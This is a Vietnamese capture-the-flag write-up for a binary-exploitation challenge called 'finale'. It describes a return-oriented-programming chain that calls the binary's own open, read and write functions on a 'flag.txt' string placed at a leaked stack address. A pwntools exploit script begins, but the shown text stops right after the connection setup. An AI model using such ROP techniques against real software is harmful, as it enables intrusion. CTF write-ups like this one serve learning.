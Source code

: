 ```
 ![image](https://hackmd.io/_uploads/HJlkhmqzke.png)

ở đây ta thấy được ta không có quyền điều khiển RDX

![image](https://hackmd.io/_uploads/SJ0GhXqfJl.png)

1 điều cần chú ý là bài cho ta địa chỉ của STACK , cái này dùng để nhập chuỗi flag.txt  và lấy địa chỉ đó thôi , nếu kh cho thì read chuỗi  đó vào bss cũng được vì có hàm read các kiểu 

- quay lại vấn đề RDX

đặt bp ở RET của hàm ```finale``` , ta thấy được nó được setup sẵn ở đoạn write nên ý tưởng của ta sẽ không gặp vấn đề 

![image](https://hackmd.io/_uploads/rybT37cz1g.png)


![image](https://hackmd.io/_uploads/Sk_ihm9Mkx.png)

- Vấn đề tiếp theo nữa là không có gadget syscall thì sao open , read , write đồ được ?? 


nhìn vào đây ta thấy chương trình có sẵn các hàm này rồi -> ta chỉ cần setup các REG cho đúng và thực thi thôi

![image](https://hackmd.io/_uploads/BJ6gaX5fkl.png)

vì dễ nên để script ở đây luôn :v  

ta sẽ setup ở đầu stack là chuỗi flag.txt , xong khi open() thì bỏ nó vào RDI , RSI sẽ là 0

read thì setup (3,addr,0x54) , write thì tương tự

script : 

```
#!/usr/bin/env python3

from pwn import context, ELF, p64, remote, ROP, sys

context.binary = elf = ELF('finale_patched')


def get_process():
    if len(sys.argv) == 1:
        return elf.process()

    host, port = sys.argv[1].split(':')
    return remote(host, int(port))


def main():
    p = get_process()
